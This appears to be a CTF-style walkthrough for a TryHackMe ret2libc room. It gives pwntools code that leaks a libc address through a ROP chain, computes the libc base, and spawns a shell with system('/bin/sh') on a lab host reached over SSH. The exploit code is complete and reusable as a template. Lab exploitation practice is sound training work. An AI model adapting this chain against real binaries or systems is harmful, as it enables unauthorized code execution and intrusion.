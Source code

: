 https://tryhackme.com/room/ret2libc

https://stacklikemind.io/ret2libc-aslr


First, we set up the binaries.
It's very important to download the `libc.so.6` from the target machine, or you won't be able to grab the offsets.
```
from pwn import *
elf = ELF("ret2libc")

rop = ROP(elf)
libc = ELF('./libc.so.6')
context.binary = elf
```

Second, we set up the connection. This is for SSH, if this is a local exploit just use `p = elf.process()`
```
s = ssh(user="andy",password="ret2libc!", host="10.10.142.174")
p = s.process("./exploit_me")
```

Third, we set up the exploit to leak the GOT and PLT addresses. Make sure to change the padding.
Note: Sometimes there is no `gets` function. In that case, use any other "linked" function.
```
padding = b'A'*18
payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0]) # Load the gadget address in
payload += p64(elf.got.gets) # Load the GETS address into the RDI register (first argument on x86_64)
payload += p64(elf.plt.puts) # Load the address of PUTS, so it will print the argument (the address of GETS)
payload += p64(elf.symbols.main) # Load the return address of the main() function, for the second payload.
```

The fourth step requires more customization, as you'll have to set the first amount of `p.recvline()` 
Note: if there are any characters not recieved, the exploit will not work. Use `p.recvuntil("LAST CHARACTERS")` if there is no clear newline.
If there's still trouble, use `print(p.clean())` to flush the entire stdout.
```
print(p.recvline()) # CHANGE THIS
p.sendline(payload)
p.recvline()
leak = u64(p.recvline().strip().ljust(8,b'\0'))
p.recvline()
```


```
log.info(f'Gets leak => {hex(leak)}')
libc.address = leak - libc.symbols.gets
log.info(f'Libc base => {hex(libc.address)}')

payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(libc.symbols.system)

```

This is the same code as in the fourth step, make sure to change the `recvline()` amount
```
p.recvline() # CHANGE THIS
p.sendline(payload)
p.interactive()
```